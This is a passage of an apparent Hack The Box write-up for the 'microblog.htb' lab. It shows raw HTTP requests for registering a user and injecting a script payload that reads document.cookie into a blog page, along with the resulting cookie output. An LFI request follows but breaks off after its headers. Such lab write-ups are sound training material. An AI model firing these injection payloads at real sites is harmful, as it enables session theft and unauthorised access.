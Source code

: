 ```
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://app.microblog.htb
DNT: 1
Connection: close
Referer: http://app.microblog.htb/register/
Cookie: username=f5b43mrh60u956rbsgp15nrgai
Upgrade-Insecure-Requests: 1

first-name=hacker&last-name=hack&username=hacker&password=hacker123
```

create a new blog domain "hacker.microblog.htb" and add it `/etc/hosts` file.


**XSS**

```
POST /edit/index.php HTTP/1.1
Host: hacker.microblog.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 75
Origin: http://hacker.microblog.htb
DNT: 1
Connection: close
Referer: http://hacker.microblog.htb/edit/
Cookie: username=f5b43mrh60u956rbsgp15nrgai
Upgrade-Insecure-Requests: 1

id=6ryya4odeeh&header=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E
```

***Output:***

```username=f5b43mrh60u956rbsgp15nrgai```


**LFI**
```
POST /edit/index.php HTTP/1.1
Host: hacker.microblog.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://hacker.microblog.htb
DNT: 1
Connection: close
Referer: http://hacker.microblog.htb/edit/
Cookie: username=f5b43mrh60u956rbsgp15nrgai
Upgrade-Insecure-Requests: 1
